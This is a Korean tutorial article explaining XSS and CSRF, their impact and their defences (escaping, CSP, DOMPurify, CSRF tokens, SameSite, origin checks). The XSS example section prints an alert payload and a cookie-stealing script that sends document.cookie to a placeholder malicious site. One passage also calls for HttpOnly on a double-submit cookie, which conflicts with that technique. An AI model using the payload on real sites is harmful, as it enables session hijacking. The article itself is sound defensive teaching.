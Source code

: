 # 1. 프론트엔드 주요 보안 이슈, XSS와 CSRF
  프론트엔드 개발에서 보안은 간과하기 쉬운 영역이지만, 웹 애플리케이션의 안전성과 사용자 데이터를 보호하기 위해 필수적인 요소이다. 특히 크로스 사이트 스크립팅(XSS)과 교차 사이트 요청 위조(CSRF)는 프론트엔드에서 자주 발생하는 주요 취약점으로, 각각 브라우저와 웹사이트 간의 신뢰 관계를 악용한다는 공통점이 있다.
  XSS는 "브라우저가 웹 사이트를 신뢰해서 생기는 취약점"이다. 사용자가 입력한 악성 스크립트가 브라우저에서 실행되면서, 사용자 세션 하이재킹이나 민감한 데이터 유출을 초래할 수 있다. 반면, CSRF는 "웹 사이트가 브라우저를 신뢰해서 생기는 취약점"이다. 공격자는 사용자가 인지하지 못한 상태에서 악의적인 요청을 웹 사이트로 전송하게 만들어, 사용자의 의도와 무관한 데이터 변경이나 작업이 이루어지도록 한다.
  보안 이슈가 지속적으로 발생하는 이유는 웹 애플리케이션이 갈수록 복잡해지며, 사용자의 상호작용이 더욱 많아지기 때문이다. 사용자와 서버 간의 데이터 전송이 빈번해질수록 악성 공격자가 이를 악용할 가능성도 커진다. 특히, 브라우저와 서버 간의 신뢰 관계는 공격자에게 손쉬운 목표가 되며, 이는 공격자가 단순한 취약점을 통해서도 심각한 결과를 초래할 수 있음을 의미한다. 따라서 XSS와 CSRF와 같은 취약점에 대한 방어는 모든 프론트엔드 개발자에게 중요한 과제로 자리잡고 있다.

<br>

# 2. 크로스 사이트 스크립팅 (XSS)

## 2.1. XSS란?
  크로스 사이트 스크립팅(XSS)은 웹 애플리케이션에서 빈번하게 발생하는 보안 취약점으로, 주로 사용자 입력을 적절히 검증하지 않을 때 발생한다. XSS는 악성 스크립트가 브라우저에서 실행되도록 하여, 공격자가 부적절한 콘텐츠를 표시하거나, 사용자의 권한을 도용하는 등 다양한 악의적인 행위를 가능하게 한다. 이러한 공격은 웹 애플리케이션이 사용자로부터 입력받은 데이터를 그대로 출력할 때 주로 발생한다. 특히 사용자 입력이 페이지 렌더링에 직접적으로 반영되는 환경에서 자주 문제가 된다.
  XSS 공격은 사용자와 웹 애플리케이션 간의 신뢰를 깨뜨리며, 공격자는 이러한 취약점을 악용해 웹사이트를 악성 코드로 가득 채울 수 있다. 공격자는 단순히 사용자 데이터에 접근하는 것뿐만 아니라, 웹 페이지의 기능을 교란시키거나 새로운 취약점을 발견해 추가적인 공격을 시도할 수 있다. 이러한 이유로 XSS는 사용자 데이터 보호뿐만 아니라 애플리케이션 전체의 보안을 강화하기 위해 반드시 방어해야 하는 중요한 문제이다.

## 2.2. XSS의 공격 예시
   XSS 공격은 매우 다양한 방식으로 나타날 수 있으며, 주로 웹 페이지에 악성 스크립트를 삽입하여 실행하는 형태로 발생한다. 예를 들어, 공격자가 XSS 취약점이 있는 블로그에 <script>alert('해킹됨');</script>와 같은 스크립트를 삽입하면, 이 페이지를 방문한 사용자는 경고 메시지를 보게 된다. 이러한 단순한 공격은 웹 페이지가 사용자 입력을 제대로 검증하지 않았을 때 발생할 수 있는 위험성을 잘 보여준다.
  이와 더불어, 공격자는 더 정교한 방법으로 사용자의 세션 쿠키를 탈취할 수 있다. 예를 들어, 쇼핑몰 리뷰 작성란에 <script>document.location='악성사이트?cookie='+document. cookie</script>와 같은 코드를 삽입하면, 이 리뷰를 읽는 사용자의 세션 정보가 공격자의 서버로 전송된다. 이를 통해 공격자는 사용자의 계정을 탈취하거나, 사용자 권한을 이용해 민감한 정보를 변경하는 등의 추가적인 악의적인 행위를 할 수 있다. 이러한 공격은 사용자 입력을 제대로 검증하지 않는 모든 웹 애플리케이션에서 발생할 수 있으며, 피해 규모는 매우 클 수 있다.
  또한, XSS 공격은 공격자가 웹 페이지의 신뢰성을 무너뜨리고, 사용자 경험을 크게 훼손할 수 있다. 사용자들은 악성 스크립트가 포함된 웹 페이지를 접하게 되면, 해당 웹사이트에 대한 신뢰를 잃고 이를 더 이상 이용하지 않게 될 가능성이 높다. 이처럼 XSS는 단순한 기술적 문제가 아니라, 비즈니스에 치명적인 타격을 줄 수 있는 심각한 위협이다.

## 2.3. XSS의 영향
  XSS는 다양한 방식으로 웹 애플리케이션과 사용자의 보안을 위협할 수 있다. 그중 가장 심각한 위협은 세션 하이재킹이다. 공격자는 사용자의 세션 쿠키를 탈취하여, 사용자가 로그인한 상태를 도용할 수 있다. 이를 통해 공격자는 사용자의 계정에 무단으로 접근해 민감한 정보에 접근하거나, 계정 설정을 변경하여 사용자에게 직접적인 피해를 줄 수 있다. 세션 하이재킹은 특히 전자 상거래 사이트나 금융 서비스와 같은 민감한 데이터를 다루는 사이트에서 매우 위험하다.
  또한, XSS는 악성 코드를 브라우저에서 실행함으로써 사용자의 시스템을 직접적으로 손상시킬 수 있다. 공격자는 피싱 사이트로 유도하는 스크립트를 삽입해 사용자의 자격 증명을 훔치거나, 키로거(Keylogger)를 설치해 사용자가 입력하는 모든 데이터를 기록할 수 있다. 이러한 방식은 사용자의 개인 정보나 금융 정보를 탈취하여, 큰 재정적 피해를 유발할 수 있다. XSS는 이러한 모든 공격을 가능하게 하는 중요한 경로를 제공한다.
  XSS는 웹 애플리케이션의 신뢰도를 심각하게 훼손할 수도 있다. 공격자가 웹사이트에 악성 스크립트를 삽입하게 되면, 사용자는 웹사이트를 신뢰하지 않게 되며, 이는 사이트의 평판에 치명적인 타격을 줄 수 있다. 사용자들은 악성 스크립트를 경험한 후 해당 사이트를 피하게 되고, 이는 비즈니스에 직접적인 영향을 미친다. XSS 공격은 이러한 경제적 손실까지 야기할 수 있는 심각한 보안 위협이다.

## 2.4. XSS 취약점 대책

### 1. 입력 데이터의 검증
  사용자 입력 데이터의 검증은 XSS 방지를 위한 가장 중요한 단계 중 하나이다. 웹 애플리케이션은 모든 사용자 입력을 신뢰해서는 안 되며, 입력된 데이터가 악의적인 의도를 가지고 있을 가능성을 항상 염두에 두어야 한다. 따라서, 모든 사용자 입력은 반드시 철저하게 검증되고, 필터링되어야 한다.
  첫 번째로, 사용자 입력을 HTML 콘텐츠에 직접 삽입하기 전에 특수 문자를 이스케이프 처리해야 한다. 이는 <, >, &, ", ' 등의 특수 문자가 HTML 태그나 속성으로 인식되는 것을 방지하기 위한 조치이다. 이러한 문자가 변환되지 않고 그대로 브라우저에 전달되면, 공격자가 삽입한 스크립트가 그대로 실행될 수 있기 때문이다. 예를 들어, <script> 태그와 같은 입력이 그대로 HTML에 삽입되면, 브라우저는 이를 스크립트로 인식하고 실행하게 된다. 이스케이프 처리를 통해 이러한 입력은 단순한 텍스트로 변환되어, 스크립트가 실행되지 않게 된다.
  또한, 입력 데이터의 길이와 유형을 제한하는 것도 중요하다. 예를 들어, 이메일 주소나 전화번호와 같이 명확한 형식이 필요한 입력의 경우, 정규 표현식을 사용해 입력된 데이터가 기대하는 형식에 맞는지 검증할 수 있다. 이렇게 함으로써, 공격자가 의도적으로 악성 코드를 입력하는 것을 사전에 차단할 수 있다. 또한, 필요 이상으로 긴 입력을 허용하지 않음으로써, 악의적인 스크립트가 대규모로 삽입되는 것을 방지할 수 있다.
  마지막으로, 서버와 클라이언트 측에서 모두 검증을 수행하는 것이 바람직하다. 클라이언트 측 검증은 사용자 경험을 개선하고 빠른 피드백을 제공할 수 있지만, 이를 우회하는 방법이 존재하기 때문에 서버 측에서도 반드시 추가 검증이 이루어져야 한다. 서버 측 검증은 최종 방어선으로서, 클라이언트 측에서 처리되지 않은 악성 입력이 서버에 도달하는 것을 막아줄 수 있다. 이를 통해 잠재적인 XSS 공격의 위험을 최소화할 수 있다.

### 2. HTML 요소 속성의 보호
  HTML 요소 속성에 사용자 데이터를 삽입할 때는 특별한 주의가 필요하다. 속성 값에 사용자 입력이 직접 삽입될 경우, 이는 XSS 공격에 노출될 수 있는 경로가 된다. 예를 들어, 사용자가 입력한 데이터가 href, src, title 등의 속성 값으로 사용될 때, 이 데이터를 반드시 따옴표로 감싸고, 이스케이프 처리를 통해 특수 문자가 코드로 실행되지 않도록 해야 한다. 이를 통해 공격자가 악의적인 스크립트를 삽입하는 것을 효과적으로 방지할 수 있다.
  특히 href 속성의 경우, 사용자가 입력한 URL이 http:나 https:로 시작하는지 확인해야 한다. 이를 통해 javascript:와 같은 악성 스키마가 사용되지 않도록 할 수 있다. 속성 값에 삽입되는 모든 입력 데이터는 신뢰할 수 없는 사용자로부터 입력된 것이므로, 철저한 검증과 필터링이 필요하다.

### 3. DOM 조작 보호
  DOM 조작 시에도 XSS 공격에 대한 방어가 중요하다. 사용자의 입력을 동적으로 HTML 요소에 삽입할 때, innerHTML과 같은 메서드는 가능한 한 사용하지 않아야 한다. 이 메서드는 입력된 HTML 코드가 그대로 파싱되어 실행되기 때문에, 악의적인 스크립트가 포함될 수 있다. 대신, appendChild, textContent, createElement 등의 메서드를 사용해 DOM을 조작하는 것이 안전하다.
  이러한 메서드는 입력된 데이터를 단순한 텍스트로 처리하거나, 요소를 명확하게 생성해 삽입하기 때문에, 공격자가 악성 스크립트를 주입하는 것을 방지할 수 있다. 또한, DOM 조작 과정에서 사용자 입력이 HTML 속성에 들어가는 경우, 반드시 앞서 언급한 대로 이스케이프 처리와 검증을 수행해야 한다. 이렇게 하면 동적으로 생성된 콘텐츠도 안전하게 렌더링할 수 있다.

### 4. Content Security Policy(CSP) 적용
  Content Security Policy(CSP)는 XSS와 같은 공격을 방지하기 위한 강력한 보안 메커니즘이다. CSP는 웹 애플리케이션이 실행할 수 있는 콘텐츠의 출처를 제어하여, 악의적인 스크립트가 브라우저에서 실행되는 것을 차단한다. 이를 통해 개발자는 자신이 신뢰하는 출처에서만 스크립트를 불러올 수 있도록 제한할 수 있으며, 인라인 스크립트나 외부 소스에서 로드되는 스크립트의 실행을 막을 수 있다.
  CSP를 적용할 때는 'unsafe-inline'과 같은 비안전한 지시자를 사용하지 않는 것이 중요하다. 대신 nonce-source나 hash-source를 사용하여 인라인 스크립트가 허용될 때도 안전하게 실행되도록 설정할 수 있다. 또한, 특정 리소스 유형에 대해 script-src, style-src, img-src 등의 지시자를 설정하여, 신뢰할 수 있는 출처에서만 해당 리소스를 로드하게끔 제어할 수 있다. 이를 통해 XSS를 포함한 다양한 코드 인젝션 공격을 예방할 수 있다.
  CSP는 테스트와 모니터링을 통해 지속적으로 개선되어야 한다. 초기에는 'Report-Only' 모드를 사용하여 CSP 설정이 제대로 작동하는지 확인하고, 문제점을 파악한 후에 실제 정책을 적용하는 것이 좋다. 또한, CSP는 설정 후에도 공격 시도가 발생할 경우 보고서를 수집하여, 새로운 위협에 대응할 수 있도록 지속적으로 관리해야 한다. 이렇게 함으로써, 웹 애플리케이션의 보안을 한층 강화할 수 있다.

### 5. XSS 예방 라이브러리 사용
  XSS를 효과적으로 방어하기 위해서는 검증된 라이브러리를 사용하는 것이 중요하다. DOMPurify와 같은 라이브러리는 사용자가 입력한 데이터를 철저히 필터링하여, 잠재적으로 위험한 HTML 태그와 속성을 제거함으로써 XSS 공격을 방지한다. 이 라이브러리는 사용하기 간편하면서도 강력한 보호 기능을 제공하여, 개발자가 안전하게 사용자 콘텐츠를 처리할 수 있도록 돕는다.
  DOMPurify는 다양한 설정 옵션을 제공하여 개발자가 애플리케이션의 요구에 맞게 필터링 규칙을 커스터마이즈할 수 있다. 예를 들어, 특정 태그나 속성만 허용하거나, 스크립트와 같이 악성 코드가 포함될 수 있는 요소를 완전히 제거하는 식으로 설정할 수 있다. 이를 통해 애플리케이션의 보안 수준을 높이고, 사용자가 악의적인 입력을 통해 시스템에 해를 끼치는 것을 방지할 수 있다.
  최신 웹 브라우저에서 제공하는 Sanitizer API를 활용하는 것도 좋은 방법이다. Sanitizer API는 브라우저 내장 보안 기능으로, XSS와 같은 보안 위협으로부터 사용자를 보호하기 위해 고안되었다. 이 API는 브라우저 레벨에서 콘텐츠를 안전하게 처리하며, 사용자 입력을 DOM에 삽입하기 전에 자동으로 검증한다. 이러한 도구를 활용하면, 개발자는 XSS와 같은 취약점을 보다 효과적으로 방어할 수 있다.

<br>

# 3. 교차 사이트 요청 위조 (CSRF)

## 3.1. CSRF란?
  교차 사이트 요청 위조(CSRF)는 사용자가 신뢰하는 웹사이트에 대해 사용자의 의도와는 다른 악성 요청을 유도하는 공격 기법이다. 주로 사용자가 이미 로그인된 상태에서 발생하며, 공격자는 피해자의 브라우저를 통해 요청을 보내고, 서버는 이를 신뢰된 사용자로부터 온 것으로 간주한다. 서버는 요청의 진위를 판별하지 못하고 민감한 작업을 수행할 수 있다. 이러한 공격은 사용자의 행동이 전혀 개입되지 않더라도 악성 페이지 방문만으로도 실행될 수 있어 매우 위험하다.
  CSRF 공격은 브라우저의 신뢰성과 사용자의 세션 상태를 악용해 이루어진다. 공격자는 자주 사용하는 웹사이트나 신뢰할 수 있는 페이지에 악성 코드를 숨겨두거나, 이메일 링크를 조작하여 사용자가 클릭하도록 유도한다. 특히, 사용자가 아무 의심 없이 웹사이트를 탐색하는 동안 공격자는 민감한 작업을 자동으로 수행하게 하며, 사용자와 서버 간의 신뢰 관계를 무너뜨린다.
  이러한 공격은 특히 금융 거래, 소셜 미디어, 전자 상거래 사이트에서 위험하다. 공격자가 사용자 대신 자금 이체 요청을 하거나, 계정 정보를 변경하는 경우, 사용자는 해당 사실을 전혀 인지하지 못한 채 피해를 입을 수 있다. 따라서, CSRF는 모든 프론트엔드 개발자가 반드시 방어해야 할 주요 보안 위협으로 자리 잡고 있다.

## 3.2. CSRF의 공격 예시
  CSRF 공격은 다양한 상황에서 발생할 수 있다. 대표적인 예로, 사용자가 로그인된 상태에서 악성 링크를 클릭하는 경우를 들 수 있다. 공격자는 사용자가 자주 방문하는 커뮤니티 사이트나 포럼에 악성 링크를 게시하고, 사용자가 클릭하면 브라우저는 해당 사용자가 이미 로그인한 상태에서 악성 요청을 실행하게 된다. 예를 들어, 인터넷 뱅킹 웹사이트에서 사용자가 클릭한 링크가 계좌 이체 요청을 발생시키는 것이다. 이때 서버는 사용자의 세션 쿠키를 기반으로 요청을 합법적으로 처리해, 사용자 계좌에서 자금이 이체될 수 있다.
  또 다른 예시로는 이메일 링크를 통해 CSRF 공격이 발생하는 경우가 있다. 사용자가 공격자가 보낸 악성 이메일을 열어 그 안의 링크를 클릭하면, 사용자가 로그인한 상태인 전자 상거래 사이트에서 자동으로 주문이 생성되거나, 배송 주소가 변경되는 등의 악의적인 요청이 발생한다. 이 경우, 사용자는 자신의 브라우저에서 발생하는 요청을 신뢰하므로 아무런 경고 없이 피해를 입게 된다.
  이처럼, CSRF 공격은 사용자가 자신의 브라우저에서 실행되는 모든 요청을 통제할 수 없다는 점에서 특히 치명적이다. 공격자는 사용자가 신뢰하는 웹사이트에서 사용자의 자산을 빼돌리거나 계정 권한을 도용할 수 있으며, 이는 사용자가 의도하지 않은 결과를 초래할 수 있다.

## 3.3. CSRF의 영향
  CSRF 공격은 사용자와 웹 애플리케이션 모두에게 심각한 영향을 미칠 수 있다. 특히 금융 서비스에서 CSRF가 발생하면, 공격자는 사용자의 의도와는 상관없이 자금을 이체하거나 민감한 정보를 수정할 수 있다. 사용자는 자신이 전혀 알지 못한 상태에서 큰 재정적 피해를 입을 수 있으며, 피해 규모가 클 경우 회복하기 어려운 경제적 손실을 초래할 수 있다.
  이 공격은 또한 소셜 미디어나 이메일 서비스와 같은 개인 정보 관리 시스템에서도 위험하다. 공격자가 사용자의 계정으로 무단 게시물을 작성하거나, 사용자의 동의 없이 비밀번호를 변경해 계정을 탈취할 수 있다. 이는 사용자의 온라인 정체성을 위협하며, 공격자가 의도한 콘텐츠가 사용자의 이름으로 퍼지면서 개인적, 사회적으로도 심각한 문제를 일으킬 수 있다.
  CSRF는 단순히 개인의 피해를 넘어서, 웹 애플리케이션의 신뢰성 자체를 심각하게 훼손할 수 있다. 공격이 발생한 후, 사용자는 해당 웹사이트나 서비스에 대한 신뢰를 잃고, 더 이상 이용하지 않을 가능성이 크다. 이는 웹 애플리케이션의 비즈니스에 직접적인 타격을 줄 수 있으며, 고객 이탈로 이어져 장기적인 경제적 손실을 야기할 수 있다. 이러한 이유로 CSRF는 예방과 방어가 매우 중요한 보안 문제이다.

## 3.4. CSRF 취약점 대책

### 1. CSRF 토큰 사용
  CSRF 방어의 핵심 전략 중 하나는 원타임 토큰(One-Time Token)을 활용하여 요청과 서버 간의 일치 여부를 검증하는 것이다. 이 토큰은 서버가 사용자 세션에 고유하게 생성한 값으로, 각 요청마다 포함되어야 한다. 서버는 요청을 처리하기 전에 이 토큰이 유효한지 확인한다. 이를 통해 서버는 요청이 사용자의 브라우저에서 직접 발생했는지, 또는 외부에서 조작된 것인지를 검증할 수 있다.
  CSRF 토큰은 주로 폼에 숨김 필드로 포함된다. 사용자가 폼을 제출하면, 토큰이 함께 전송되어 서버에서 검증된다. 이렇게 함으로써 공격자가 외부에서 동일한 요청을 모방하더라도, 유효한 토큰이 없으면 요청이 처리되지 않는다. 이는 사용자가 정상적인 경로를 통해 요청을 보냈는지를 확인하는 중요한 보안 절차이다.
  이 토큰은 단순한 값이 아니라, 복잡하고 예측 불가능한 값이어야 하며, 매 세션마다 변경되는 것이 바람직하다. 세션이 시작될 때마다 새로운 토큰이 생성되거나, 각 요청 시마다 새롭게 발급되어야 한다. 이렇게 하면 공격자가 특정 토큰을 획득하더라도 이를 재사용할 수 없게 되어, CSRF 공격의 성공 가능성을 크게 낮출 수 있다. 이는 CSRF 공격을 방지하는 데 있어 중요한 보안 계층을 추가하는 역할을 한다.화할 수 있다.

### 2. SameSite Cookie 속성 사용
  CSRF 공격을 방지하는 또 다른 중요한 방법은 쿠키의 SameSite 속성을 사용하는 것이다. 이 속성은 쿠키가 요청과 함께 전송되는 방식을 제어하여, 교차 사이트 요청이 쿠키를 포함할 수 없도록 제한한다. SameSite 속성은 Lax, Strict, 또는 None으로 설정할 수 있으며, 기본적으로는 Lax로 설정하여 대부분의 경우에 안전한 보호를 제공한다.
  SameSite=Lax는 사용자가 링크를 클릭하거나 GET 요청을 통해 사이트를 탐색할 때 쿠키가 전송되도록 허용하지만, POST 요청과 같은 민감한 작업에는 쿠키가 포함되지 않도록 한다. 이는 사용자가 외부 사이트에서 특정 링크를 클릭하는 일반적인 사용 사례를 보호하면서도, CSRF 공격의 가능성을 줄이는 데 효과적이다. SameSite=Strict로 설정하면, 모든 외부 요청에 대해 쿠키가 전송되지 않아, CSRF 공격에 대한 보호가 더욱 강화된다.
  하지만, SameSite=Strict는 사용자 경험에 영향을 미칠 수 있어, 모든 상황에서 적합하지는 않다. 반면, SameSite=Lax는 보안과 사용자 경험의 균형을 잘 맞추는 옵션으로, 대부분의 웹 애플리케이션에서 권장된다. 특정 상황에서는 SameSite=None을 사용하여 쿠키가 교차 사이트 요청에서도 전송되도록 설정할 수 있지만, 이 경우 반드시 Secure 속성도 함께 사용하여 HTTPS 연결에서만 쿠키가 전송되도록 해야 한다. 이를 통해 CSRF 공격에 대한 강력한 방어를 유지하면서도, 필요한 경우 유연성을 제공할 수 있다.

### 3. Double Submit Cookie 기법
  Double Submit Cookie 기법은 CSRF 공격을 방어하기 위한 효과적인 방법 중 하나로, CSRF 토큰을 두 번 제출하는 방식을 사용한다. 이 기법에서는 서버가 사용자의 브라우저에 CSRF 토큰을 포함하는 쿠키를 발급하고, 클라이언트는 이 토큰을 폼 데이터나 요청 헤더에 포함시켜 서버에 다시 전송한다. 서버는 요청이 들어오면, 쿠키에 저장된 토큰과 폼이나 헤더에 포함된 토큰이 일치하는지 확인한다.
  이 방법은 서버가 CSRF 토큰을 관리하는 방식과 달리, 쿠키와 폼 데이터 간의 일치 여부를 검사하여 CSRF 공격을 방어한다. 공격자는 CSRF 토큰이 포함된 쿠키를 위조할 수 없으며, 일치하는 토큰 값을 알지 못하기 때문에, 이 기법은 CSRF 공격을 효과적으로 차단한다. 또한, 이 기법은 서버 측에서 특별한 상태 정보를 유지할 필요가 없어 구현이 비교적 간단하다.
  하지만 Double Submit Cookie 기법은 쿠키의 보안 설정이 중요하다. 쿠키가 JavaScript에서 접근 가능하지 않도록 HttpOnly 속성을 사용해야 하며, Secure 속성을 통해 HTTPS 연결에서만 쿠키가 전송되도록 설정해야 한다. 이러한 보안 설정을 통해 쿠키가 클라이언트 측에서 노출되는 것을 방지하고, CSRF 공격에 대한 방어력을 더욱 강화할 수 있다.

### 4. 출처 검증
  CSRF 공격을 방지하는 또 다른 중요한 방법은 출처 검증(Origin Verification)이다. 출처 검증은 서버가 요청의 출처(Origin)와 Referer 헤더를 확인하여, 요청이 신뢰할 수 있는 출처에서 온 것인지 판단하는 방식이다. 웹 브라우저는 요청을 보낼 때 출처와 Referer 헤더를 자동으로 포함시키며, 서버는 이를 바탕으로 요청의 유효성을 검사할 수 있다.
  출처 검증은 특히 중요한 작업에서 유용하다. 예를 들어, 민감한 데이터 수정이나 결제 요청과 같은 작업에서 출처가 올바른지 확인함으로써, 외부 사이트에서 발생한 의도하지 않은 요청을 차단할 수 있다. 이 방법은 CSRF 공격을 사전에 방어하는 강력한 수단이 된다.
  이 방식의 핵심은, 서버가 허가된 출처 리스트를 유지하고, 그 리스트에 포함되지 않은 출처에서 온 요청은 모두 거부하는 것이다. 이를 통해, 공격자가 임의의 사이트에서 보내는 CSRF 요청이 효과를 발휘하지 못하도록 막을 수 있다. 그러나, Referer 헤더는 일부 환경에서 제거되거나 수정될 수 있으므로, 출처 검증은 CSRF 방어 전략의 하나로 사용되며, 다른 방법들과 함께 적용하는 것이 권장된다.
